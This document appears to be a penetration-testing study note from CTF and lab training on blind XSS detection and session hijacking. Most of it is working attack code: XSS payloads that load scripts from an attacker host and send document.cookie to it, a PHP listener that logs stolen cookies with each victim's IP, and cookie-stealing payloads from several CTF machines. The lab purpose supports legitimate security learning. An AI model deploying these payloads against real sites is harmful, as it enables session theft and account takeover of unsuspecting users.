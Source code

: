 ```yaml
---
title: c-Sessions Hijacking
draft: false
tags:
  - session-hijacking
  - xss-cookie-stealing
  - blind-xss
  - xss
---
```

Modern web apps use cookies to maintain a user's session throughout different browsing sessions.

If a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.

## Blind XSS Detection

**Blind XSS vulnerability** occurs when the vulnerability is triggered on a page we don't have access to.

Blind XSS usually occurs with forms only accessible by certain users like the admins.

Some potential examples include:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

Let's say there is a registration form and only admin can see the registration information when submitted. 

How can we detect an XSS vulnerability if we cannot see how the output is handled?

> We can use HTTP server that will receive request coming from JavaScript payload.

However, this introduces two issues:

1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did.
2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?

## Load Remote Script

We can include a remote script as below. This way we can execute remote JavaScript file that is served on our VM.

```html
<script src="http://OUR_IP/script.js"></script>
```

Let's change the script name to the name of the field we are injecting in. This way, when we get the request in our VM, we can identify the vulnerable input field that executed the script:

```html
<script src="http://OUR_IP/username"></script>
```

Now let's test with various XSS payloads that will load a remote script and see which of them sends us a request:

```html
<script src=http://10.10.14.89></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Before we start sending payloads, let's start a listener on our VM:

```shell-session
jadu101@htb[/htb]$ mkdir /tmp/tmpserver
jadu101@htb[/htb]$ cd /tmp/tmpserver
jadu101@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Now we can start sending payloads one by one as such:

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

> We can usually skip email and password field since email requires email format and password is usually hashed.


## Session Hijacking

Assuming now we have a working XSS payload and have identified which input field is vulnerable, let's proceed to XSS exploitation and perform a Sessions Hijacking attack.

We can use such payloads to grab the session cookie and send it back to us:

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Let's save below JavaScript payload to `script.js`:

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

Now the following XSS payload will launch `script.js`:

```html
<script src=http://OUR_IP/script.js></script>
```

With our PHP server running, we can now use the code above as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value. 

However, if there were many cookie, we may not know which cookie value belongs to which cookie header so we have to write a PHP script to split them with a new line and write them to a file.

We can save the following PHP script as `index.php` and re-run the PHP server:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Once the victim visit the vulnerable page and view our XSS payload, we will get two requests on our server. 

1. Request for `script.js`
2. Request for `index.php` which returns cookie value. 

```shell-session
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

Since we have prepared PHP script, we will also get `cookies.txt` file with a clean log of cookies:

```shell-session
jadu101@htb[/htb]$ cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

## Examples from CTFs

Below are some example payloads from HTB ctfs:

1. Headless: `<script>var i=new Image(); i.src="http://10.10.14.12:1234/?cookie="+btoa(document.cookie);</script>`
2. PermX: `<img src=x onerror="document.location='http://10.10.14.36:1234/?cookie=' + document.cookie"/>`
3. Intuition: `<img src=x onerror="fetch('http://10.10.14.29:8000/?cookie='+document.cookie)">
4. ICean: `<img src=x onerror="document.location='http://10.10.14.36:1234/?cookie=' + document.cookie"/>


